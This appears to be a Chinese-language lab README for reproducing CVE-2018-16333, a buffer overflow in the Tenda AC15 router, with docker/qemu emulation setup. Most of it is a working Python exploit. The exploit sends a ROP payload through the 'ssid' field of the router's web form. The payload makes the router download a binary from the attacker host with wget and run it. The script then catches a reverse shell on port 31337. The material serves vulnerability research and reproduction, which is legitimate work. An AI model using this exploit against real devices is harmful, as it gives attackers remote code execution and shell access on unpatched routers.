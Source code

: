 # Tenda AC15 路由器缓冲区溢出漏洞（CVE-2018-16333）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2018-16333/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2018-16333/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += b'chmod 777 /msf\n'
cmd += b'/msf'

assert(len(cmd) < 255)

libc_base = 0x76cee000

system = libc_base + 0x5A270
readable_addr = libc_base + 0x64144
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload += p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/fast_setting_wifi_set"
cookie = {"Cookie": "password=12345"}
data = {"ssid": payload}

def attack():
    try:
        requests.post(url, cookies=cookie, data=data)
        requests.post(url, cookies=cookie, data=data)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://www.anquanke.com/post/id/231445
